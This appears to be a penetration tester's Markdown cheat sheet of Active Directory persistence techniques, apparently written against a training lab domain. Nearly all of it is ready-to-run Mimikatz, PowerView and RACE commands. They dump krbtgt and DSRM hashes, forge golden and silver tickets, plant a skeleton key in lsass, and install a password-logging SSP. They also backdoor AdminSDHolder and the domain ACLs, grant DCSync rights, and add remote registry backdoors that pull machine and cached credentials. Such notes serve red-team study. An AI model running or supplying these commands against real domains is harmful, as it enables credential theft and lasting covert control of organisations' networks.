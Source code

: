 ## AD Persistence

- [Get krbtgt Hash](#get-krbtgt-hash)
- [Golden Ticket](#golden-ticket)
- [Silver Ticket](#silver-ticket)
- [Skeleton Key](#skeleton-key)
- [DSRM (Directory Services Restore Mode)](#dsrm--directory-services-restore-mode-)
- [SSP (Security Support Provider)](#ssp--security-support-provider-)
- [ACL Persistence](#acl-persistence)
    + [SDPROP and AdminSDHolder](#sdprop-and-adminsdholder)
    + [Domain Root Object ACL](#domain-root-object-acl)
    + [DCSync](#dcsync)
    + [WMI Security Descriptors](#wmi-security-descriptors)
    + [Remote Registry](#remote-registry)
- [MORE](#more)

### Get krbtgt Hash
---
```powershell
# On DC as a DA
C:> Invoke-Mimikatz -Command '"lsadump:lsa /patch"'

# DC-Sync attack. DA rights required
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user_<domain>\krbtgt"'
```
### Golden Ticket
---
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
### Silver Ticket
---
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
```
### Skeleton Key
---
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
---
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd
- Following steps need to be done in a DC session with DA rights
```powershell
# 1. Dump DSRM password (DA privileges required)
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>

# (OPTIONAL) 2. Compare the Administrator hash with the Admin hash of this command
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>

# 3. First one is the DSRM local Admin. Pass the hash can be used to authenticate
# 4. Logon behavior for DSRM account needs to be changed
C:> Enter-PSSession -Computername <hostname> 
C:> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# 5. Pass the hash. FQDS domain and NTLM Hash obtained for Administrator in step 1.
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain-dc_host> /user:Administrator /ntlm:<adim_hash> /run:powershell.exe
```
### SSP (Security Support Provider)
---
We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!
- Inject into `lsass` using Mimikatz
```powershell
C:> Invoke-Mimikatz -Command '"misc::memssp"'
```
- Use `mimilib.dll`
```powershell
C:> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
C:> $packages += mimilib
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- All logons on DC logged to `C:\Windows\system32\kiwissp.log`

### ACL Persistence
---
#### SDPROP and AdminSDHolder

  AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.
Once you have agained Domain Admin privileges, AdminSDHolder container can be abused by backdooring it by giving your user GenericAll privileges, which effectively makes that user a Domain Admin.
```powershell
#`sdprop` is a process that runs evey hour and compares ACL of protected groups with members of the ACL of `AdminSDHolder`. Any differences are overwriten.
# With DA privileges on `AdminSDHolder` object, a user can be added to the `AsminSDHolder` ACL and will be added to protected groups when `sdprop` runs
# Load Module
C:> . .\Invoke-SDPropagator.ps1

# Force `sdprop` to run
C:> Invoke-SDPropagator

# Add Full Control Permissions for a user to AdminSDHolder using PowerView
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc moneycorp,dc=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Change PAssword permissions
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Write Members
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Check Domain Admins Permissions with Poweriew
C:> Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<username>"}

# Once with permissions, Add User with PowerView
C:> Add-DomainGroupMember -Identity 'Domain Admins' .Members <username> -Verbose

# Change user password
C:> Set-DomainUserPassword -Identity <usernname> -AccountPassword (ConvertTo-SecureString "Password@" -AsPlainText -Force) -Verbose
```
#### Domain Root Object ACL
```powershell
# Add Full Rights to Domain Root ACL
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
#### DCSync
```powershell
# Check if a user has DCSync rights. Gives nothing if no rights 
C:> Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<user>"}

# DCSync rights on Domain
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student76 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Execute DCSync
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### WMI Security Descriptors

```powershell
# To be able to run WMI commands
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemoteWMI -SamAccountName <username> -ComputerName <hostname_full_FQDN> -namespace 'root\cimv2' -Verbose
```
```powershell
# Give permissions to be able to PS Remoting
# UNSTABLE SINCE SOME M$ PATCHES
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemotePSRemoting –SamAccountName <username> -ComputerName <hostname_full_FQDN> -Verbose

# Now can run WMI on host
C:> gwmi -class win32_operatingsystem -ComputerName <host>
```
#### Remote Registry
```powershell
# Using RACE, with admin privs on remote machine
C:> Add-RemoteRegBackdoor -ComputerName <hostname> -Trustee <username> -Verbose

# From a shell as <username>, not DA rights
# As <username> from before, retrieve machine account hash:
C:> Get-RemoteMachineAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve local account hash:
C:> Get-RemoteLocalAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve domain cached credentials:
C:> Get-RemoteCachedCredential -ComputerName <hostname> -Verbose

# With this machine account hash can create Silver Tickets
C:> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_fqdn> /sid:<domain_sid> /target:<hostname_fqdn> /service:HOST /rc4:<host_hash> /user:Administrator /ptt"'
```
### MORE






